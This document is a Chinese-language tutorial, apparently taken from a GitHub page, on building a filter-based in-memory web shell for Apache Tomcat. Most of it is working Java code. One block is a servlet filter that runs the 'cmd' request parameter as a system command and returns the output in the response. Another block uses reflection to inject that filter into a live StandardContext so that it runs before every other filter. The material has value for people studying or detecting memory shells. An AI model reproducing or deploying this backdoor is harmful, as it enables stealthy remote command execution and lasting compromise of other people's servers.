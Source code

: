 filter 型内存马实现
=============

filter 部分
=========

先通过一个简单的 filter 来看一下结构

```
package filter;import javax.servlet.*;import java.io.IOException;public class filterDemo implements Filter {    public void init(FilterConfig filterConfig) throws ServletException {        System.out.println("init filter");    }    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {        System.out.println("exec filter");        filterChain.doFilter(servletRequest,servletResponse);    }    public void destroy() {}}
```

filterDemo 中有 init、doFilter、destroy 三个重要方法

```
init()方法：初始化参数，在创建Filter时自动调用，当我们需要设置初始化参数的时候，可以写到该方法中。
doFilter()方法：拦截到要执行的请求时，doFilter就会执行。这里面写我们对请求和响应的预处理
destory()方法：在销毁Filter时自动调用
```

对我们来说，init 和 destory 不需要做什么，只需要写一个 doFilter 方法拦截需要的请求，将其参数用于 Runtime.getRuntime().exec() 做命令执行，并将返回的数据打印到 Response 中即可，如下例：

```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {     String cmd = servletRequest.getParameter("cmd");     if (cmd!= null) {         Process process = Runtime.getRuntime().exec(cmd);         java.io.BufferedReader bufferedReader = new java.io.BufferedReader(                 new java.io.InputStreamReader(process.getInputStream()));         StringBuilder stringBuilder = new StringBuilder();         String line;         while ((line = bufferedReader.readLine()) != null) {             stringBuilder.append(line + '\n');         }         servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());         servletResponse.getOutputStream().flush();         servletResponse.getOutputStream().close();         return;     }     filterChain.doFilter(servletRequest, servletResponse); }
```

动态注册部分
======

filter 部分写好，下一步就是实现将其注入到内存中

```
//从org.apache.catalina.core.ApplicationContext反射获取context方法ServletContext servletContext =  request.getSession().getServletContext();Field appctx = servletContext.getClass().getDeclaredField("context");appctx.setAccessible(true);ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);Field stdctx = applicationContext.getClass().getDeclaredField("context");stdctx.setAccessible(true);StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");Configs.setAccessible(true);Map filterConfigs = (Map) Configs.get(standardContext);String name = "filterDemo";//判断是否存在filterDemo这个filter，如果没有则准备创建if (filterConfigs.get(name) == null){    //定义一些基础属性、类名、filter名等    filterDemo filter = new filterDemo();    FilterDef filterDef = new FilterDef();    filterDef.setFilterName(name);    filterDef.setFilterClass(filter.getClass().getName());    filterDef.setFilter(filter);        //添加filterDef    standardContext.addFilterDef(filterDef);        //创建filterMap，设置filter和url的映射关系,可设置成单一url如/xyz ,也可以所有页面都可触发可设置为/*    FilterMap filterMap = new FilterMap();    // filterMap.addURLPattern("/*");    filterMap.addURLPattern("/xyz");    filterMap.setFilterName(name);    filterMap.setDispatcher(DispatcherType.REQUEST.name());        //添加我们的filterMap到所有filter最前面    standardContext.addFilterMapBefore(filterMap);        //反射创建FilterConfig，传入standardContext与filterDef    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);    constructor.setAccessible(true);    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);        //将filter名和配置好的filterConifg传入    filterConfigs.put(name,filterConfig);    out.write("Inject success!");    }else{    out.write("Injected!");}
```

